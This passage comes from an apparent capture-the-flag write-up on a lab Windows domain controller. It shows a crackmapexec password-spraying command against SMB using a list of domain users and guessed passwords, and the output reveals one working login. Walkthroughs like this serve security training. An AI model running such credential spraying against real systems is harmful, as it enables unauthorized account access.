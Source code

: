 

### Test Passwords with Domain Users

I added all these users to a file and went back to `crackmapexec` to
check if the passwords I already have work with any of these users:



    root@kali# crackmapexec smb 10.10.10.179 -u dom_users -p passwords --continue-on-success
    SMB         10.10.10.179    445    MULTIMASTER      [*] Windows Server 2016 Standard 14393 x64 (name:MULTIMASTER) (domain:MEGACORP) (signing:True) (SMBv1:True)
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\MULTIMASTER$:password1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\MULTIMASTER$:finance1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\MULTIMASTER$:banking1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\DnsAdmins:password1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\DnsAdmins:finance1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\DnsAdmins:banking1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\DnsUpdateProxy:password1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\DnsUpdateProxy:finance1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\DnsUpdateProxy:banking1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\svc-nas:password1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\svc-nas:finance1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\svc-nas:banking1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\Privileged IT Accounts:password1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\Privileged IT Accounts:finance1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\Privileged IT Accounts:banking1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\tushikikatomo:password1 STATUS_LOGON_FAILURE 
    SMB         10.10.10.179    445    MULTIMASTER      [+] MEGACORP\tushikikatomo:finance1 
    SMB         10.10.10.179    445    MULTIMASTER      [-] MEGACORP\tushikikatomo:banking1 STATUS_ACCESS_DENIED 
    ...[snip]...



There's one success: `MEGACORP\tushikikatomo:finance1`.

With these new creds, I have access to three shares:
